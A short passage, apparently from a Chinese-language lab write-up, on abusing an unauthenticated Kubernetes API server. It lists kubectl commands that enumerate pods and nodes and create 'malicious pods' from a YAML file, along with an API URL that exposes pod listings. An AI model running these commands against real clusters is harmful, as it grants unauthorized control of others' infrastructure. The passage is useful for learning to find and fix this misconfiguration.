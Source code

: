 ```plain
kubectl -s http://192.168.125.129:8888/ get pods
kubectl -s http://192.168.125.129:8888/ get nodes
```

![在这里插入图片描述](assets/1711471683-43d87e483b817067599759c0ad74f068.png)

或者创建恶意 pods

```plain
kubectl -s http://192.168.125.129:8888/ create -f test.yaml
```

![在这里插入图片描述](assets/1711471683-1d0a9dcad7e09993f79e05743f1f2267.png)  
![在这里插入图片描述](assets/1711471683-3efe2654d7c65d4de2e459499dea9006.png)  
可以通过下面接口查看未授权访问

```plain
http://192.168.125.129:8888/api/v1/namespaces/default/pods?limit=500
```
